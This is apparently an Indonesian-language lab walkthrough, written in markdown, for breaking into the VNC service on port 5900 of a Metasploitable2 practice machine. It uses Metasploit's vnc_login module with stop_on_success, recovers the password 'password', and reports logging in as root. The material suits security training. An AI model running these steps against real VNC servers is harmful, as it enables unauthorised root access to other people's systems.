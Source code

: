 # Exploit Port 5900 (VNC)
- Buka msfconsole di terminal
```sh
msfconsole
```


- Dari hasil scanning nmap diketahui bahwa server menggunakan VNC versi `3.3`. Jadi cari modul untuk exploit VNC versi `3.3`
```sh
search vnc 3.3
```

- Gunakan modul `auxiliary/scanner/vnc/vnc_login` yang berada di nomor urut 1 dari hasil pencarian
```sh
use <nomor_modul>
```


- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```


- Isi parameter yang dibutuhkan di modul tersebut
```sh
set rhosts <IP_metasploitable2>
set stop_on_success true
```


- Setelah pengisian parameter selesai jalankan modul tersebut. Disini didapat `password` sebagai password untuk masuk ke VNC server
```sh
run
```

- Akses VNC server melalui terminal baru dan disini kita berhasil masuk sebagai user root 